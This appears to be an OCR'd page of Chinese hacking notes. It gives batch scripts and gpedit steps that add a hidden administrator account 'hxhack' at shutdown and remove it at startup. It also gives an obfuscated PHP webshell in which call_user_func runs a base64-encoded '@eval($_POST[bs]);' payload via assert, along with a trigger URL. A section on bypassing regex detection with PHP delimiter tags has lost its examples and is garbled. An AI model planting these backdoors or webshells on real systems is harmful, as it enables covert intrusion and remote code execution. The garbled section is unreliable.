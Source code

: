 1

准备开关机脚本 &#x20;

{% tabs %}
{% tab title="关机.bat" %}
```
@echo off
net user hxhack 123456/add
net localgroup administrators hxhack/add
```
{% endtab %}

{% tab title="启动.bat" %}
```
@echo off
net user hxhack/del
```
{% endtab %}
{% endtabs %}

启用开关机脚本

1. 点击"开始"菜单-运行"，输入命令"gpedit.msc"，回车后打开组策略编辑器程序窗口&#x20;
2. 依次展开"计算机配置"-"windows设置"-"脚本(启动/关机)"项目&#x20;
3. 双击右侧的"启动"。打开启动脚本设置对话框。点击"显示文件"按钮，将会自动打开系统启动脚本目录&#x20;
4. 将刚才建立的"启动.bat"移动到此文件夹中。然后关闭文件夹窗口。在启动脚本对话框中。点击"添加"按钮，浏览指定当前目录下的开机脚本文件"启动.bat"。
5. 点击确定按钮。完成添加。再点击"应用"按钮，使用当前启动设置。关闭启动脚本设置对话框。然后双击组策略编辑器中的"关机"项目，打开关机脚本设置对话框，用同样的方法添加关机脚本为"关机.bat"。最后关闭组策略编辑器

待研究：

> https://github.com/tennc/webshell\
> https://github.com/JohnTroony/php-webshells

### 0x39: 利用PHP自定义函数回调执行webshell

``[`call_user_func()`](http://php.net/manual/zh/function.call-user-func.php)``

```php
<?php
    if(key($_GET)=='dede')
        //call_user_func($_GET['dede'], "@eval($_POST[bs]);");
        call_user_func($_GET['dede'], base64_decode('QGV2YWwoJF9QT1NUW2JzXSk7'));
?>

<?php 
    //call_user_func($_GET['dede'], "@eval($_POST[bs]);");
    call_user_func($_GET['dede'], base64_decode('QGV2YWwoJF9QT1NUW2JzXSk7')); 
?>
# http://localhost/test/test.php?dede=assert
```

### 0x40: 利用PHP扩展定界标签实现正则检测绕过

PHP是一种和HTML混编的脚本语言，它允许的定界标签如下

1. 'if you want to serve XHTML or XML documents, do it like this'; ?>//永远可用
2. &#x20;'if you want to serve XHTML or XML documents, do it like this';//PHP允许半闭合
3. //永远可用
4. //单引号
5. //无引号
